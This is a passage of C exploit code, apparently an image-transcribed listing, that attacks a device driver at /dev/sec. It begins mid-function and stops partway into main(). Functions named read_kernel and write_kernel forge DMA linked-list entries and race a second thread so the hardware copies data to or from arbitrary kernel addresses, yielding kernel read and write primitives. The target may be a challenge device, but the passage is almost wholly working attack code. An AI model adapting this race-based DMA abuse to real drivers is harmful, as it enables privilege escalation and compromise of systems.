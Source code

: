 ```c
    return NULL; 
}
uint64_t read_kernel(int fd, uint64_t kaddr, uint64_t size) {
    printf("(Thread 1): Read %p:%x\n", kaddr, size);    
    //valid entry, will be read from user to hw
    memset(buf, 0, sizeof(struct lli) * 4);
    buf[0].src  = a;
    buf[0].size = 0x10;
    //forged entry (write from kaddr to hw)
    buf[1].src  = kaddr;
    buf[1].dst  = 0x100;
    buf[1].size = size;
    buf[1].ctrl = 0;
    //do the race
    racer_run = 1;
    for(int i = 0; i < 16; i++) {
      buf[0].src  = a;
      write(fd, buf, sizeof(struct lli));
    }
    racer_run = 0;
    //read out the resulting data
    memset(a, 0x0, size);
    buf[0].dst  = a;
    buf[0].src  = 0x100;
    buf[0].size = size;
    read(fd, buf, sizeof(struct lli));
    void * data = malloc(size);
    memcpy(data, a, size);
    return data;
}
void write_kernel(int fd, uint64_t kaddr, void * uaddr, uint64_t size){
    printf("(Thread 1): Write %p:%x\n", kaddr, size);    
    //populate hw with data to write:
    memcpy(a, uaddr, size);
    buf[0].src = a;
    buf[0].dst = 0x1000;
    buf[0].size = size;
    write(fd, buf, sizeof(struct lli));
    //valid entry, will be read from user to hw
    memset(buf, 0, sizeof(struct lli) * 4);
    buf[0].src  = a;
    buf[0].size = 0x10;
    //forged entry (write from hw to kaddr)
    buf[1].src  = 0x1000;
    buf[1].dst  = kaddr;
    buf[1].size = size;
    buf[1].ctrl = PL666_LLI_READ;
    //do the race
    racer_run = 1;
    for(int i = 0; i < 16; i++) {
        buf[0].src = a;
        write(fd, buf, sizeof(struct lli));
    }
    racer_run = 0;
    return;
}

int main() {
    int secfd = open("/dev/sec", O_RDWR); 
    buf = mmap((void*)0x10000, 0x2000, PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
    a   = mmap((void*)0x20000, 0x1000, PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
    pthread_t t;
    struct racer_arg targ;
```